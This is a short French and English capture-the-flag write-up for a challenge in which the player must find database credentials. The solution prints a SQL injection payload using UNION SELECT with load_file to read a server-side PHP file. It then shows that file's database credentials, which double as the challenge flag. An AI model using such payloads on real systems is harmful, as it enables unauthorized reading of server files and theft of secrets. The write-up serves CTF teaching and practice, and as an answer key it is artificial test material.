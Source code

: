 # Code source
- Auteur: `zuyoutoki`
- Flag: `FLAG-ThereOnceWasAShipThatPutToSea`

## Description (français)
Le même marin anonyme continue de faire des ravages! Il me dit qu'il possède maintenant les identifiants pour se connecter à ma base de données! Peux-tu trouver ces identifiants?

## Description (english)
The same anonymous sailor continues to wreak havoc! They tell me they now have the credentials for my database! Can you find these credentials?

## Solution
À partir du LFI trouvé, continuer d'énumérer les fichiers du répertoire.
- `id=0 union select 0,load_file('/www/crew.php')`

Les fichiers `crew.php` et `captain.php` contiennent les identifiants pour la base de données:
```php
$servername = "localhost";
$username = "wellerman";
$password = "FLAG-ThereOnceWasAShipThatPutToSea";
$dbname = "boatdb";
```
